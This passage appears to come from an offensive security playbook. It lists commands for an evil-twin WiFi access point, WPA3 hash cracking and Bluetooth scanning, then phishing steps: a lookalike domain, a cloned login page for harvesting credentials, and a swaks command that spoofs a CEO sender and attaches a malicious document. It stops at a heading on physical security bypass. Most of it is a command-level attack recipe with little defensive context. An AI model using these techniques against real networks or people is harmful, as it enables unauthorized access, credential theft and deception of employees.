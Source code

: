 ## Wireless Network Attacks

### Advanced WiFi Attacks
**Objective**: Compromise wireless networks and connected devices

**Techniques**:
```bash
# 1. Evil twin attack setup
hostapd evil_twin.conf
dnsmasq -C dnsmasq.conf
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT

# 2. WPA3 attacks
hashcat -m 22000 capture.hc22000 wordlist.txt
wpa3_dictionary_attack.py -i capture.pcap -w wordlist.txt

# 3. Bluetooth attacks
hcitool scan
l2ping target_mac
bluesniff -i hci0
```

## Social Engineering and Physical Attacks

### Advanced Social Engineering
**Objective**: Manipulate humans to gain unauthorized access

**Techniques**:
```bash
# 1. Phishing infrastructure setup
# Domain registration and DNS setup
dig target-company.com
whois target-company.com
# Register similar domain: target-c0mpany.com

# 2. Credential harvesting pages
httrack https://login.target-company.com
# Modify harvested pages to capture credentials

# 3. Spear phishing campaigns
swaks --to target@company.com --from ceo@company.com --header "Subject: Urgent: Security Update Required" --body phishing_email.txt --attach malicious_document.docx

# 4. Voice phishing (Vishing)
# Use voice changers and social engineering scripts
# Impersonate IT support or executives
```

### Physical Security Bypass
**Objective**: Gain physical access to restricted areas and systems
